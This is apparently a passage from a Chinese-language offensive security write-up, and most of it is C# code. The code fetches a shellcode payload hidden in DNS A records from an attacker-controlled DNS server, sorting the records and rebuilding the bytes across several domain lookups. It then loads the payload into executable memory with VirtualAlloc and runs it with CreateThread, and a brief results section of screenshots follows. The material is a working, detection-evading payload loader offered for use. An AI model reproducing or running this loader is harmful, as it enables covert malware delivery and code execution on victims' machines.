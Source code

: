   
排序ip数据

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    List<int> Keys = new List<int>();List<string> Values = new List<string>();foreach (var item in A_Records){    int key = int.Parse(item.Split('.')[3]);    Keys.Add(key);    Values.Add(item);}var dict = new Dictionary<int, string>();for (int i = 0; i < Keys.Count; i++)    dict.Add(Keys[i], Values[i]);Keys.Sort();List<string> sortedVals = new List<string>();for (int i = 0; i < Keys.Count; i++){    sortedVals.Add(dict[Keys[i]]);}

  
还原出payload字节数组

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    byte[] XxXPayload = new byte[sortedVals.Count * 3];Int32 Xnumber = 0;for (int i = 0; i < sortedVals.Count; i++){    string[] temp = sortedVals[i].Split('.');    XxXPayload[Xnumber] = Convert.ToByte(temp[0]);    XxXPayload[Xnumber + 1] = Convert.ToByte(temp[1]);    XxXPayload[Xnumber + 2] = Convert.ToByte(temp[2]);    Xnumber++;    Xnumber++;    Xnumber++;}

  
经过这样4步就能得到解析一个域名的DNS A记录。那如果是payload的数据过长，我们采用的多域名解析，就还要将后面的域名DNA
A记录解析数据拼接起来才是完整的payload数据。 多域名解析，拼接完整payload

  *   *   *   *   *   *   * 

    
    
    List<byte> data = new List<byte>();byte[] data1 = __nslookup("Microsoft.com", dns_server);data.AddRange(data1);byte[] data2 = __nslookup("Google.com", dns_server);if(data2 != null)    data.AddRange(data2);byte[] _Exfiltration_DATA_Bytes_A_Records = data.ToArray();

  
通过上面5步，我们就可以获得完整、准确的payload数据。 执行payload

  *   *   *   *   *   *   * 

    
    
    UInt32 funcAddr = VirtualAlloc(0, (UInt32)_Exfiltration_DATA_Bytes_A_Records.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);Marshal.Copy(_Exfiltration_DATA_Bytes_A_Records, 0, (IntPtr)(funcAddr), _Exfiltration_DATA_Bytes_A_Records.Length);IntPtr hThread = IntPtr.Zero;UInt32 threadId = 0;IntPtr pinfo = IntPtr.Zero;hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);WaitForSingleObject(hThread, 0xFFFFFFFF);

  

##  **3.4 利用结果**

  

生成DNS A记录
![](https://gitee.com/fuli009/images/raw/master/public/20220228190000.png)  
启动dns解析服务  
![](https://gitee.com/fuli009/images/raw/master/public/20220228190001.png)  
运行解析结果
![](https://gitee.com/fuli009/images/raw/master/public/20220228190002.png)  
  